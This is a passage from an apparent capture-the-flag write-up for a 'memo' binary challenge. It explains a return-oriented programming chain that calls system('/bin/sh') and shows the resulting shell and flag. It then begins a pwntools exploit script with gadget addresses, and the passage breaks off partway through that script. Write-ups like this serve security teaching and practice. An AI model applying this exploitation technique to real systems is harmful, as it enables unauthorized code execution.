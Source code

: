 Great, now all we need to do is call `system("/bin/sh")`. The address of `system` is stored at `0x602a00`. We calculate `(0x602a00 - 0x401528) / 8` and put it on the stack at `eax_for_system_addr`. We also put a NUL-terminated string `/bin/sh` on the stack at `binsh_addr`.

```
POP_RDI
binsh_addr # 1st arg
POP_RBP
eax_for_system_addr + 4
POP_RDX_JMP
0 # rdx, junk
```

We finally get a shell:

```
$ cat /home/memo/flag
bkp{you are a talented and ambitious hacker}
```

Full exploit code:

```python
#!/usr/bin/python2

from pwn import *

def login(p, uname):
    p.recvuntil('name: ')
    p.sendline(uname)
    p.recvuntil('password? (y/n) ')
    p.sendline('n')

def do_cmd(p, cmd):
    p.recvuntil('>> ')
    p.sendline(cmd)

def new_memo_set_index(p, idx):
    do_cmd(p, '1')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def new_memo(p, idx, size, msg):
    new_memo_set_index(p, idx)
    p.recvuntil('Length: ')
    p.sendline(str(size))
    p.recvuntil('Message: ')
    p.sendline(msg)

def edit_memo(p, msg):
    do_cmd(p, '2')
    p.recvuntil('Edit message: ')
    p.sendline(msg)
    p.recvuntil('message!\n')
    leak = p.recv(6)
    p.recvuntil('\n\n')
    return u64(leak + '\x00\x00')

PUTS_PLT = 0x400818
READ_PLT = 0x400840
GETCHAR_PLT = 0x400858
READ_GOT = 0x601fa8
POP_RDI = 0x401263
POP_RSI_R15 = 0x401261
POP_RBP = 0x400900
# pop rdx; mov eax, dword ptr [rbp - 4];
# mov rax, qword ptr [rax*8 + 0x401528]; jmp rax;
```